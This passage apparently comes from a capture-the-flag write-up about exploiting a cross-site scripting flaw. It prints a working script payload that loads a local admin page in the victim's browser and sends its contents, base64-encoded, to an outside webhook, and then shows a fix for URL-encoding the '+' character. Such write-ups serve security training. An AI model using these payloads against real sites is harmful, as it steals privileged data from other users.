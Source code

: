 Oh well, at least we can use the `onload` function so when the `XMLHttpRequest` has loaded the page I could send the full page contents as `base64` text to my webhook using the following payload.

```html
<script>x=new XMLHttpRequest();x.onload=function(){y=new XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();</script>
```

![](images/hackerts_goof.png)

**WAIT WHAT???**

**Why on earth is my payload breaking?!**

I spent a good half an hour trying to figure out why my payload was not working. Then it finally clicked for me and realised I am a big doofus.

The issue with the above payload is the following part of the payload.

```js
y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText))
```

The character `+` before the `btoa` can also be the URL encoding for a space (`' '`), which was exactly what was happening and breaking my payloads syntax. URL encoding the `+` to `%2B` fixes the problem and the following payload works!

```
<script>x=new XMLHttpRequest();x.onload=function(){y=new XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'%2Bbtoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();</script>
```
